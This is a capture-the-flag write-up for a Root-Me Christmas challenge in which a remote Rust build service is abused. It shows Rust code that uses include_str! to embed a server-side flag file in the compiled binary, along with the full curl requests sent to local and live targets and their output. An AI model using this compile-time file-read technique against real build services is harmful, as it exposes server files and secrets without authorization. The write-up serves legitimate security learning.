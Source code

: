 # Day 04 - Build And Drustroy

I love rust because it's secure and fast. So I want people to do MOAR rust.

That's why I made a microservice to allow fast and easy remote code compilation.

Send my your code, I'll compile it, and I know for sure I'm safe!

```
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

>     Author : Laluka
>     https://day4.challenges.xmas.root-me.org/

## Analysis
We can run the challenge locally within a `docker`:

```console
$ sudo docker-compose up --build
(...)
Step 5/5 : CMD ["/app/target/release/build-and-drustroy"]
 ---> Using cache
 ---> 6ce0e68b404f
Successfully built 6ce0e68b404f
Successfully tagged day4_chall:latest
Starting day4_chall_1 ... done
Attaching to day4_chall_1
chall_1  | Server running on http://0.0.0.0:3000
```

Looking at the `docker-compose.yml` file, we see that the flag is in some text file under `/flag/`, but we don't know yet if the name of the file is the same on the target:
```
      - ./flag.txt:/flag/randomflaglolilolbigbisous.txt
```

Now, looking at the code (in `RUST`), we see that it indeed takes some code passed as data in the `POST request` to api `/remote-build`, compiles it and returns an `ELF file`.

So what we need to do is to send a piece of `RUST` code that:
- reads the file `/flag/randomflaglolilolbigbisous.txt`
- somehow makes a constant out of its contents, so that this constant is embedded within the compiled `ELF` itself
- print that content, so that we can run the received `ELF` binary and get the flag

## Solution
Here's the `RUST` code I used to read `/flag/randomflaglolilolbigbisous.txt`, put it into a constant and print it:

```rust
const FLAG: &'static str = include_str!("/flag/randomflaglolilolbigbisous.txt");

fn main() {
   println!("{}", FLAG);
}
```

We can make a oneliner out of it to make it easier to pass in the POST request:

```rust
const FLAG: &'static str = include_str!("/flag.txt"); fn main() { println!("{}", FLAG); }
```

I had some issue with the single quote before `static`, so I used `BURP` to do it, then copied the request back to a `curl command (bash)` from `BURP`. I gives a `curl` request where some fields are not necessary, but oh well, this works.

While still testing with the local instance on `127.0.0.1:3000`, we can indeed retrieve the local flag:

```console
$ curl -sSk -X $'POST' -H $'Host: 127.0.0.1:3000' -H $'User-Agent: curl/7.81.0' -H $'Accept: */*' -H $'Content-Type: application/json' -H $'Content-Length: 138' -H $'Connection: close' --data-binary $'{\"src/main.rs\":\"const FLAG: &\'static str = include_str!(\\\"/flag/randomflaglolilolbigbisous.txt\\\"); fn main() { println!(\\\"{}\\\", FLAG); }\"}' $'http://127.0.0.1:3000/remote-build' --output binary
$ file binary
binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=336e9753ab7a365fd1efd4e44717312f1c6d479f, for GNU/Linux 3.2.0, not stripped
$ chmod +x binary
$ ./binary
pouetpouet

```

Time to test it on the target, at `https://day4.challenges.xmas.root-me.org`. We don't know yet if the name of the file containing the flag is the same, but let's try it:

```console
$ curl -sSk -X $'POST' -H $'Host: day4.challenges.xmas.root-me.org' -H $'User-Agent: curl/7.81.0' -H $'Accept: */*' -H $'Content-Type: application/json' -H $'Content-Length: 138' -H $'Connection: close' --data-binary $'{\"src/main.rs\":\"const FLAG: &\'static str = include_str!(\\\"/flag/randomflaglolilolbigbisous.txt\\\"); fn main() { println!(\\\"{}\\\", FLAG); }\"}' $'https://day4.challenges.xmas.root-me.org/remote-build' --output binary2
$ file binary2
binary2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2acd3e30cd8bb676cd9d9f057f4c4675e8e52b2f, for GNU/Linux 3.2.0, not stripped
$ chmod +x binary2
$ ./binary2
OffenSkillSaysHi2024RustAbuse

```

And it works !

## Flag
> OffenSkillSaysHi2024RustAbuse
